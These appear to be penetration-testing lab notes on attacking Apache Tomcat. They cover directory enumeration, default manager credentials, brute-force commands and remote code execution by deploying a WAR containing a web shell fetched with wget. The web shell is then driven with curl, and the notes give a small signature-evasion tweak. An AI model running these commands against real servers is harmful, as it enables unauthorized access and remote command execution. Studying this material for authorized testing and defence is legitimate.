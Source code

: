 ### Footprinting + Enumeration
```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Apache Tomcat
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```

```bash
gobuster dir -u http://adot8.com -w ~/opt/wordlists/directory-list-2.3-medium.txt
 -x txt,html -t 100
```

Tomcat webapps folder structure
```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class   
```
The **most important f**ile among these is `WEB-INF/web.xml`, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the `WEB-INF/classes` folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The `lib` folder stores the libraries needed by that particular application

The `web.xml `configuration above defines a new servlet named AdminServlet that is mapped to the class `com.inlanefreight.api.AdminServlet.` Java uses the dot notation to create package names, meaning the path on disk for the class defined above would be:

    classes/com/inlanefreight/api/AdminServlet.class

Next, a new servlet mapping is created to map requests to /admin with AdminServlet. This configuration will send any request received for /admin to the AdminServlet.class class for processing. The web.xml descriptor holds a lot of sensitive information and is an important file to check when leveraging a Local File Inclusion (LFI) vulnerability.

The `tomcat-users.xml` file is used to allow or disallow access to the /manager and host-manager admin pages.

```bash
!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```

### Exploitation
#### Password spraying
```
tomcat:tomcat
admin:admin
```
#### Login Bruteforcing
```
use auxiliary/scanner/http/tomcat_mgr_login
set stop_on_success true
```
This is another tool that can perform the bruteforcing [Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
```bash
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```
#### RCE via WAR File Upload
```bash
use  exploit/multi/http/tomcat_mgr_upload
```
**Alternatively**
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```
`Browse` to select the .war file and then click on `Deploy`
View that `/backup` is a n application path
```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```
###### Obfuscation
Change 
```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```
To
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```
###### Cleanup
To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`. If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.

